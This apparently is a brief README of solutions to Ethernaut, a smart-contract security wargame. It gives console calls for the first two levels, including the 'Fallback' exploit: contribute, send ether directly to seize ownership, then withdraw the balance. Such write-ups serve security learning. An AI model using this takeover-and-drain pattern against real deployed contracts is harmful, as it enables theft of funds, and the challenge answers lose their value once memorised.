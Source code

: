 # ethernaut-solutions
Solutions for Ethernaut.



### Hello Ethernaut

```
contract.authenticate("ethernaut0")
```

### Fallback
```
contract.contribute({value:toWei('0.0001')})
sendTransaction({to: instance, from: ethereum.selectedAddress, value: toWei('0.0001')})
contract.withdraw()
```

